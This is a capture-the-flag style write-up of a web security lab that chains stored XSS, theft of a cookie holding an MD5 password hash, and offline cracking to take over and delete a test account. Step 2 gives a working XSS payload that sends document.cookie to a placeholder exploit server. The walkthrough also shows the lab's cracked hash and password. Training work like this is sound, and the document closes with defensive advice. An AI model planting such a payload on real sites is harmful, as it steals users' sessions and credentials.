 # 🧪 Lab 04 – Offline Password Cracking

---

## 📘 Lab Overview

This lab explores the dangers of insecure cookie design and weak password hashing mechanisms. The application stores user credentials in a persistent cookie and contains a stored cross-site scripting (XSS) vulnerability within its comment system. The objective is to obtain Carlos’s `stay-logged-in` cookie via XSS, decode and crack the MD5 hash offline, then use the recovered credentials to log in and delete the account.

---

## 🔍 Step-by-Step Walkthrough

### Step 1 – Investigate the Cookie Format

- Log in using any test account.
- Open **Burp Suite** > Proxy > HTTP history.
- Locate the `stay-logged-in` cookie in the login response.
- Decode it using **Burp Decoder**: `base64(username:md5(password))`

---

### Step 2 – Leverage XSS for Cookie Exfiltration

- Post a comment on any blog using this stored XSS payload:
```html
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
- Replace YOUR-EXPLOIT-SERVER-ID with your actual exploit server domain
```

### Step 3 – Collect the Victim’s Cookie
Navigate to the exploit server → access log.

Locate the incoming request from the victim browser containing:

`stay-logged-in=carlos:26323c16d5f4dabff3bb136f2460a943`
Copy and decode the cookie structure.


### Step 4 – Crack the MD5 Hash Offline
Search the hash using an online MD5 database:

`26323c16d5f4dabff3bb136f2460a943 → onceuponatime`

### Step 5 – Authenticate and Delete the Account
Log in using:

Username: carlos

Password: onceuponatime

Navigate to My Account and click Delete Account.

---

### ✅ Key Takeaways
Storing hashed passwords in client-side cookies exposes them to offline attacks.

MD5 is a weak and outdated hashing algorithm, easily cracked using public databases.

Stored XSS vulnerabilities pose a high risk when used to steal authentication tokens.

Cookie construction using predictable patterns undermines authentication security.

⚠️ Security Recommendations
 - Avoid storing authentication tokens or hashes in client-side cookies.
 - Use cryptographically secure formats for persistent login (e.g., server-side tokens).
 - Replace MD5 with modern algorithms like bcrypt, Argon2, or scrypt.
 - Always sanitize user input to prevent stored XSS attacks.
 - Enforce cookie attributes:
   - HttpOnly
   - Secure
   - SameSite

- Limit authentication lifespan and apply device/session binding.

This lab emphasizes the dangers of poor authentication design and highlights how multiple vulnerabilities—when chained—can lead to complete compromise of user accounts.

### ✅ Status
 🎉 Lab Solved
